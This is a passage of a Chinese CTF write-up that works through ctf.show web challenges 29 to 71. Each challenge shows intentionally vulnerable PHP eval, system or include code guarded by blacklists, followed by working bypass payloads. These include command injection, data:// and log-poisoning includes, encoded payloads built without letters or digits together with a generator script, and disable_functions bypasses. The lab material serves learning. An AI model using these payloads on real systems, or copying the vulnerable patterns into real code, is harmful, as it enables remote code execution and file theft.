

## web29

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:26:48
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

先看看目录

```php
?c=system("ls");
```

是在当前目录下，那就直接读就行

可以绕过也可以用通配符匹配

```php
通配符
?c=system("tac fla?.php");
绕过
?c=system("tac fla''g.php");
```

绕过方法还是很多的，可以参考我的文章https://wanth3f1ag.top/3025/04/16/%E5%AF%B9%E4%BA%8ERCE%E5%92%8C%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E7%9A%84%E4%B8%80%E7%82%B9%E6%80%BB%E7%BB%93/#%E7%BB%95%E8%BF%87%E5%85%B3%E9%94%AE%E5%AD%97%E9%BB%91%E5%90%8D%E5%8D%95

## web30

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:42:26
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

这里过滤了system，用passthru绕过

```php
?c=passthru("ls");
?c=passthru("tac fla*");
```

## web31

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:49:10
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

多过滤了cat，sort，shell，点号，单引号和空格

绕过空格的话很多URL编码都可以绕，或者用Linux里面环境变量IFS

```php
?c=passthru("tac\$IFS\$1fla*");
?c=passthru("tac\${IFS}fla*");
```

这里需要注意将$进行转义，因为是在PHP环境下的

## web32

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:56:31
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

多过滤了反引号，echo，分号，左括号

分号的话可以直接用`?>`代替，因为在php中`?>`前最后的一行代码可以不用分号结尾

include直接打伪协议

```php
?c=include$_GET[1]?>&1=data://text/plain,<?php+phpinfo();?>
```

include打日志包含

```php
?c=include$_GET[1]?>&1=../../../var/log/nginx/access.log
```

然后在UA头写马就行了

## web33

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 02:22:27
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/
//
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

这次把双引号也过滤了，但是不影响我们打include

## web34

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 04:21:29
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

多过滤了冒号，但是不影响我们include，毕竟冒号是在另一个参数中使用的

## web35

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 04:21:23
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

多过滤了`<`和`=`

不过好像还是不影响我们include

## web36

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 04:21:16
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=|\/|[0-9]/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

多过滤了数字，那我们把GET参数换成字母就行了

## web37

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 05:18:55
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```

这次直接换成include了，那就很多打法了，可以直接伪协议读文件，但是发现伪协议不能和通配符一起用，因为通配符是用在shell中的

```php
?c=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOw==
```

当然也可以日志包含

## web38

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 05:23:36
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|php|file/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```

过滤php,file,使用短标签或者base64编码绕过，所以上面的payload是可以用的

## web39

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 06:13:21
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c.".php");
    }
        
}else{
    highlight_file(__FILE__);
}
```

有后缀名限制的php代码，但是因为这里是直接拼接我们的输入，那我们用data协议的话是可以打的

```php
?c=data://text/plain,<?php phpinfo();?>
```

这里的话因为我们后面用`?>`进行闭合了，所以后面的php只会当成是代码外的一部分，当然也可以直接注释掉

```php
?c=data://text/plain,<?php phpinfo();%23
```

记得这里需要对`#`进行编码，不然会被当成是URL的一部分

## web40

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 06:03:36
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/


if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
    }
        
}else{
    highlight_file(__FILE__);
}
```

过滤了好多，先写个脚本筛选一下没过滤的字符

```php
<?php
for ($i=32;$i<127;$i++){
        if (!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", chr($i))){
            echo chr($i)." ";
        }
}
//  ! ( ) ; A B C D E F G H I J K L M N O P Q R S T U V W X Y Z _ a b c d e f g h i j k l m n o p q r s t u v w x y z |
```

题目的提示很明显了，就是让我们打无数字RCE，也就是无参数RCE

```php
?c=var_dump(scandir(pos(localeconv())));
?c=highlight_file(next(array_reverse(scandir(current(localeconv())))));
```

## web41

### #无数字字母RCE

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: 羽
# @Date:   2020-09-05 20:31:22
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:40:07
# @email: 1341963450@qq.com
# @link: https://ctf.show

*/

if(isset($_POST['c'])){
    $c = $_POST['c'];
if(!preg_match('/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i', $c)){
        eval("echo($c);");
    }
}else{
    highlight_file(__FILE__);
}
?>
```

可用字符

```php
  ! " # % ' ( ) * , . / : ; < = > ? @ \ _ ` | 
```

明显就是无数字字母RCE了，这里过滤了`+`，`~`，`^`，但是或运算符没被过滤，可以试一下

```php
c=("%10%08%10%09%0e%06%0f"|"%60%60%60%60%60%60%60")//phpinfo
```

成功输出phpinfo，这里有echo，需要加个括号

```php
c=("%10%08%10%09%0e%06%0f"|"%60%60%60%60%60%60%60")()//等价于(phpinfo)()
```

放个构造payload的脚本

```python
import re
import urllib
from urllib import parse
hex_i = ""
hex_j = ""
pattern='/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i'
str1=["system","ls"]#要构造的字符串 system 和 ls
for p in range(2):
    t1 = ""
    t2 = ""
    for k in str1[p]:
        for i in range(256):
            for j in range(256):
                if re.search(pattern,chr(i)) :
                    break
                if re.search(pattern,chr(j)) :
                    continue
                if i < 16:
                    hex_i = "0" + hex(i)[2:]
                else:
                    hex_i=hex(i)[2:]
                if j < 16:
                    hex_j="0"+hex(j)[2:]
                else:
                    hex_j=hex(j)[2:]
                hex_i='%'+hex_i
                hex_j='%'+hex_j
                c=chr(ord(urllib.parse.unquote(hex_i))|ord(urllib.parse.unquote(hex_j)))
                if(c ==k):
                    t1=t1+hex_i
                    t2=t2+hex_j
                    break
            else:
                continue
            break
    print("(\""+t1+"\"|\""+t2+"\")")
```

但是貌似这里禁用了system函数，我们换成passthru函数试一下

```php
c=("%10%01%13%13%14%08%12%15"|"%60%60%60%60%60%60%60%60")("%00%0c%13%00"|"%27%60%60%27")
```

发现成功执行并回显，那就用这个打就行了

```php
c=("%10%01%13%13%14%08%12%15"|"%60%60%60%60%60%60%60%60")("%14%01%03%00%06%0c%01%07%00%10%08%10"|"%60%60%60%20%60%60%60%60%2e%60%60%60")
//(passthru)(tac flag.php)
```

如果括号中不是php的函数的话就会被当成正常的字符串

```php
<?php
$c = "(whoami)";
eval("echo($c);");
//whoami
```

## web42

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 20:51:55
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    system($c." >/dev/null 2>&1");
}else{
    highlight_file(__FILE__);
}
```

直接拼接的，system中可以执行多个命令，这里`>/dev/null`会将命令的输出丢弃，而`2>&1`是将命令的标注错误进行丢弃

```php
?c=ls;ls
```

这里的话后面的命令会被丢弃而前面的正常执行

## web43

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:32:51
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

过滤了分号和cat，但是可以用Linux命令连接符

### Linux命令连接符&&

```php
root@VM-16-12-ubuntu:/# cd /v && ls
bash: cd: /v: No such file or directory
root@VM-16-12-ubuntu:/# cd /var && ls
backups  cache  crash  lib  local  lock  log  mail  opt  run  snap  spool  tmp  www
```

`逻辑与`符：前面的命令执行成功，才会执行后面的命令，前面的命令执行失败，后面的命令不会执行

### Linux命令连接符||

```php
root@VM-16-12-ubuntu:/var# cd /v || ls
bash: cd: /v: No such file or directory
backups  cache  crash  lib  local  lock  log  mail  opt  run  snap  spool  tmp  www
root@VM-16-12-ubuntu:/var# cd /var || ls
```

`逻辑或`符：前面的命令执行成功，则后面的命令不会执行。前面的命令执行失败，后面的命令才会执行。

### Linux命令连接符|

```php
root@VM-16-12-ubuntu:/var# echo 'cd /' | bash -i
root@VM-16-12-ubuntu:/var# cd /
root@VM-16-12-ubuntu:/# exit
```

管道符，当用此连接符连接多个命令时，前面命令执行的正确输出，会交给后面的命令继续处理。若前面的命令执行失败，则会报错，若后面的命令无法处理前面命令的输出，也会报错。

所以这里用连接符直接打

```php
?c=ls%26%26ls//ls&&ls
```

这里&是用于在URL中分隔查询参数的

## web44

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:32:01
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/;|cat|flag/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

多过滤了一个flag

```php
?c=tac fla\g.php%26%26ls
```

flag绕过之前就做过了

## web45

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:35:34
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| /i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

多过滤了空格，也是之前学过的

```php
?c=tac${IFS}fla*||ls
```

## web46

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:50:19
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

多过滤了数字和dollar符号以及`*`号，那空格可以用重定向符，URL编码去绕过

```php
?c=tac<fla''g.php||ls
?c=tac%09fla''g.php||ls
```

## web47

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:59:23
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

过滤了很多读取文件的函数，可以用`tac`、`nl`和`awk`

```php
?c=tac%09fla?.php||ls
```

## web48

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:06:20
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

还是没过滤nl和tac

```php
?c=nl%09fla?.php||
```

文件内容在源码中

## web49

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:22:43
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

不用管过滤了百分号，因为%09是URL编码，在传入到服务器的时候会进行URL解码为Tab符

```php
?c=tac%09fla?.php||
```

## web50

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:32:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

过滤了09，可以用重定向符

```php
?c=tac<fla''g.php||
```

## web51

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:42:52
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

过滤了tac，nl还能用

```php
?c=nl<fla""g.php||
```

## web52

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:50:30
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

这次把重定向符都过滤了，但是把dollar放出来了

```php
?c=nl${IFS}/fla""g||
```

好像flag在根目录而不是在当前目录？我前面用nl的题目没看flag是不是在flag.php，大家可以看一下

## web53

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 18:21:02
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|wget|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        echo($c);
        $d = system($c);
        echo "<br>".$d;
    }else{
        echo 'no';
    }
}else{
    highlight_file(__FILE__);
}
```

flag在flag.php中

```php
?c=nl${IFS}fla""g.php
```

## web54

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 19:43:42
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```

其实就是完全过滤了这些字符，那就不能绕过了，可使用未过滤的uniq，grep进行查找，也可以使用mv或者cp对文件重命名进行访问

更骚的姿势就是用文件执行命令去打

`/bin`这个目录下一些命令文件

```php
?c=/bin/ca?${IFS}f???????
?c=/bin/base??${IFS}f???????
```

但是不知道为什么我写成

```php
?c=/bin/base??${IFS}fla?????
```

就不行

## web55

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 20:03:51
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```

无字母RCE，用bin目录下的base64就行

```php
?c=/???/????64 ????.???
```

当然也可以用`/usr/bin/bzip2`，这个会将文件进行压缩，然后我们访问flag.php.bz2就可以把flag.php下载下来

```php
?c=/???/???/????2 ????.???
```

不过也可以打无数字字母RCE中的临时文件上传bash脚本并用`.`执行，因为在system中不能进行异或/拼接等操作

## web56

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\\$|\(|\{|\'|\"|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```

过滤太多懒得看了，输出可用字符

```php
 ! # ) * + , - . / : = ? @ [ \ ] ^ _ | } ~ 
```

这个就是无数字字母中的了，可以参考P牛的文章https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html

## web57

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-08 01:02:56
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

// 还能炫的动吗？
//flag in 36.php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
    }
}else{
    highlight_file(__FILE__);
}
```

这里的话很明显是需要构造一个36出来

**在linux中**，`$(())`表示进行运算的意思

```
root@VM-16-12-ubuntu:/home/ubuntu# echo $(())
0
root@VM-16-12-ubuntu:/home/ubuntu# echo $((~$(())))
-1
root@VM-16-12-ubuntu:/home/ubuntu# echo $(($((~$(())))$((~$(())))$((~$(())))))
-3
root@VM-16-12-ubuntu:/home/ubuntu# echo $((~$(($((~$(())))$((~$(())))$((~$(())))))))
2
```

中间37个`$((~$(())))`就是`-37`，取反后就是`36`

```php
root@VM-16-12-ubuntu:/home/ubuntu# echo $((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))
36
```

所以我们的payload

```php
?c=$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))
```

## web58-65

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

这里的话是有disable_function禁用函数的，我发现可以用file_put_contents写文件但是写入的函数还是会被禁用

可以用原生类去读一下目录

```php
c=$a=new DirectoryIterator('./');foreach($a as $f){echo($f->__toString()." ");}
```

然后用读文件的函数去读

```php
c=echo file_get_contents('flag.php');

c=echo highlight_file('flag.php');
c=highlight_file("flag.php");

c=show_source('flag.php');
```

当然这里也可以用无参数RCE去读目录和文件

```php
c=print_r(scandir(current(localeconv())));
c=highlight_file(next(array_reverse(scandir(current(localeconv())))));
```

## web66-67

这次flag不在flag.php中，那看看根目录

```php
c=print_r(scandir('/'));
```

```php
Array ( [0] => . [1] => .. [2] => .dockerenv [3] => bin [4] => dev [5] => etc [6] => flag.txt [7] => home [8] => lib [9] => media [10] => mnt [11] => opt [12] => proc [13] => root [14] => run [15] => sbin [16] => srv [17] => sys [18] => tmp [19] => usr [20] => var )
```

现在问题是如何读到非第一第二位的flag.txt呢？先看看读文件的函数能不能直接读

```php
c=highlight_file('/flag.txt');
```

发现可以读，直接拿到了

## web68

### #输出数组函数代替1

print_r()函数被禁用，可以用var_dump()函数

```php
c=var_dump(scandir('/'));
```

然后发现读文件的函数都用不了了，但是可以用原生类去读文件

```php
c=var_dump((new SplFileObject('/flag.txt'))->fpassthru());
```

这里的话就是用SplFileObject类去读文件的

## web69-70

### #输出数组函数代替2

这道题的话var_dump()函数也被禁用了，那找找其他的函数，只要是可以输出数组或者操作数组的就行

### json_encode()函数

```php
c=echo json_encode(scandir("/"));
```

这里的话可以将数组转化成json的格式，然后用echo去输出

### var_export()函数

```php
c=var_export(scandir("/"));
```



然后看到flag，尝试读取

```php
c=var_export((new SplFileObject('/flag.txt'))->fpassthru());
```

## web71

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}

?>

你要上天吗？
```

这里的话是一个缓冲区的绕过，可以提前送出缓冲区也可以直接绕过缓冲区

### 提前送出缓冲区

```php
可用的函数:
1.ob_flush()函数
ob_flush() 函数在 PHP 中用于刷新（输出）当前输出缓冲区的内容。当输出缓冲被激活时（通常通过 ob_start() 函数），PHP 脚本的输出不会立即发送到客户端（如浏览器），而是先存储在内部缓冲区中。ob_flush() 函数会将缓冲区的内容发送到客户端，但不一定清空缓冲区本身，这取决于 PHP 的配置和输出缓冲机制的状态。

2.flush()函数
flush() 函数尝试将输出缓冲区的内容发送到客户端。但是，如果 PHP 的输出缓冲和 Web 服务器的输出缓冲同时被激活，flush() 可能不会清空 PHP 的输出缓冲区，只会尝试清空 Web 服务器的输出缓冲区。
ob_flush() 函数确保 PHP 的输出缓冲区内容被发送到客户端。如果同时调用了 flush()，则可能尝试同时清空 PHP 和 Web 服务器的输出缓冲区。
    
3.ob_end_flush()函数
ob_end_flush(); 函数在 PHP 中用于结束当前的输出缓冲区，并将缓冲区的内容发送到客户端（如浏览器）。这个函数结合了 ob_end_clean(); 和 ob_flush(); 的功能：它首先会发送缓冲区的内容（如果缓冲区不为空），然后关闭（结束）当前的输出缓冲块。

与 ob_end_clean() 的区别：
ob_end_clean(); 只是清空（丢弃）缓冲区的内容，并不发送它到客户端。
ob_end_flush(); 则会发送内容，并结束缓冲。
    
与 ob_flush() 的区别：
